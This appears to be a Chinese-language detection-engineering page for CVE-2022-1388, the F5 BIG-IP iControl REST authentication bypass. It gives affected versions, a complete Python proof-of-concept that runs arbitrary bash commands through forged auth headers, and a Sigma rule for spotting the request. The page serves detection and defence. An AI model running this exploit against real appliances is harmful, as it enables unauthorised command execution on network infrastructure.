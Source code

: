 # T1190-CVE-2022-1388-F5BIG-IP未授权RCE

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

在F5 BIG-IP 16.1.x 16.1.2.2之前的版本、15.1.5.1之前的15.1.x版本、14.1.4.6之前的14.1.x版本、13.1.5之前的13.1.x版本以及所有12.1.x和11.6.x版本，未公开的请求可能会绕过iControl REST身份验证。注意：未评估已达到技术支持终止(EoTS)的软件版本。

此漏洞可能允许未经身份验证的攻击者通过管理端口和/或自身IP地址对BIG-IP系统进行网络访问，以执行任意系统命令、创建或删除文件或禁用服务。没有数据平面暴露；这只是一个控制平面问题。

## 检测日志

HTTP.log

## 测试复现

[POC地址](https://github.com/horizon3ai/CVE-2022-1388)

具体POC可参考：

```python
#!/usr/bin/python3
import argparse
import requests
import urllib3
urllib3.disable_warnings()

def exploit(target, command):
    url = f'https://{target}/mgmt/tm/util/bash'
    headers = {
        'Host': '127.0.0.1',
        'Authorization': 'Basic YWRtaW46aG9yaXpvbjM=',
        'X-F5-Auth-Token': 'asdf',        
        'Connection': 'X-F5-Auth-Token',
        'Content-Type': 'application/json'
           
    }
    j = {"command":"run","utilCmdArgs":"-c '{0}'".format(command)}
    r = requests.post(url, headers=headers, json=j, verify=False)
    r.raise_for_status()
    if ( r.status_code != 204 and r.headers["content-type"].strip().startswith("application/json")):
        print(r.json()['commandResult'].strip())
    else:
        print("Response is empty! Target does not seems to be vulnerable..")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='The IP address of the target', required=True)
    parser.add_argument('-c', '--command', help='The command to execute')
    args = parser.parse_args()

    exploit(args.target, args.command) 
```

## 测试留痕

无

## 检测规则/思路

### Sigma规则

```yml
title: F5-BIG-IP-RCE(CVE-2022-1388)
status: experimental
description: F5 recently patched a critical vulnerability in their BIG-IP iControl REST endpoint CVE-2022-1388. This vulnerability is particularly worrisome for users because it is simple to exploit and provides an attacker with a method to execute arbitrary system commands.
references:
    - https://www.horizon3.ai/f5-icontrol-rest-endpoint-authentication-bypass-technical-deep-dive/
    - https://www.randori.com/blog/vulnerability-analysis-cve-2022-1388/
author: 12306Br0
date: 2022/05/15
tags:
    - attack.t1190
logsource:
    category: webserver
detection:
    selection:
        cs-method: 'POST'
        c-uri|contains|all:
            - '/mgmt/tm/util/bash'
        cs-Connection: '*X-F5-Auth-Token*'
        cs-X-F5-Auth-Token: '*'
        cs-Authorization: '*'
    condition: selection
falsepositives:
    - Unknown
level: critical
tags:
    - attack.t1190
    - cve.2022.1388
```

### 建议

似乎并没有什么好的建议，规则未经过仿真环境测试，请谨慎使用。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2022-1388

<https://github.com/horizon3ai/CVE-2022-1388>

F5 BIG-IP未授权RCE（CVE-2022-1388）分析

<https://www.anquanke.com/post/id/273011#h2-2>
